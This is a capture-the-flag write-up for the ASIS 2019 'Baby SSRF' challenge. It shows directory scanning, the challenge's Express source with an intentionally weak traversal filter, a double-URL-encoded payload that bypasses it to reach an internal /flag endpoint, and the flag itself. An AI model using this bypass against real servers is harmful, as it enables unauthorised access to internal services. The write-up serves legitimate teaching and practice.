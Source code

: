 ### Baby SSRF - 70 points (73 solves)

> The goats thought they were safe behind the walls from the threat of the wolf!
> But they were not aware of the wolf's plan to bypass the wall!


We are given a really simple website with the text:

`Hi, I'm a baby ssrf :)`

Not a lot of information really. First thing I did was to try endpoints searching for something more relevant. 

```
$ python3 dirsearch.py -u 82.196.12.132:12999

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 10 | Wordlist size: 6009

Target: 82.196.12.132:12999

Starting:
[21:20:24] 400 -   11B  - /%ff/
[21:20:52] 200 -    2KB - /source
[21:20:52] 200 -    2KB - /source/

Task Completed
```

I got a hit with the endpoint `/source`. Accessing the endpoint displays the source code of the site:

```javascript
const express = require("express");
const config = require("./configs");
const body_parser = require('body-parser');
const http = require('http')
const public_s = express();
const private_s = express();
const normalizeUrl = require('normalize-url');

public_s.use(body_parser.urlencoded({
    extended: true
}));

public_s.get('/', function (request, result) {
    result.setHeader('GET', 'source')
    result.send("Hi, I'm a baby ssrf :)")
    result.end()
})

public_s.get('/source', function(req, res) {
    res.sendFile(__filename)
  })

public_s.use(function (req, res, next) {
    var err = null;
    try {
        decodeURIComponent(req.path)
    } catch (e) {
        err = e;
    }
    if (err) {
        res.sendStatus(400).end()
    }
    next();
});

public_s.post('/open/', (request, result) => {
    document_name = request.body.document_name

    if (document_name === undefined) {
        result.end('bad')
    }
    console.log('http://localhost:9000/documents/' + document_name)
    if (document_name.indexOf('.') >= 0 ||
        document_name.indexOf("2e") >= 0 ||
        document_name.indexOf("┮") >= 0 ||
        document_name.indexOf("Ｅ") >= 0 ||
        document_name.indexOf("Ｎ") >= 0) {
        result.end('Please get your banana and leave!')
    } else {
        try {
            var go_url = normalizeUrl('http://localhost:9000/documents/' + document_name)
        } catch {
            var go_url = 'http://localhost:9000/documents/banana'
        }
        http.get(go_url, function (res) {
            res.setEncoding('utf8');

            if (res.statusCode == 200) {
                res.on('data', function (chunk) {
                    result.send(chunk)
                    result.end()
                });
            } else {
                result.end('Oops')
            }
        }).on('error', function (e) {
            console.log("Got error: " + e.message);
        });
    }
})

public_s.listen(8000)
private_s.listen(9000)

private_s.get('/documents/banana', function (request, result) {
    result.send("Here is your banana :D")
    result.end()
})

private_s.get('/flag', function (request, result) {
    result.send(config.flag)
    result.end()
})
```

The code is easy to understand. There is an internal service running behind the `/open` endpoint where the flag can be read. All we have to do is call the open service with the document that we want to read with the `document_name` argument. The only problem is the filter being done on our input:

```
if (document_name.indexOf('.') >= 0 ||
        document_name.indexOf("2e") >= 0 ||
        document_name.indexOf("┮") >= 0 ||
        document_name.indexOf("Ｅ") >= 0 ||
        document_name.indexOf("Ｎ") >= 0) {
        result.end('Please get your banana and leave!')
```

This prevents us from simply input `../flag` or bypass the filter with `%2e%2e/flag`. After some thinking, I figured I could URL encode the string `%2e` and bypass the filter. 

```
The input %2e%2e/flag becomes %25%32%45%25%32%45/flag
```

![burp_ssrf](https://github.com/diogoaj/ctf-writeups/blob/master/2019/asis-quals/web/baby-ssrf/resources/baby_ssrf.png)


Flag:

`
ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}
`



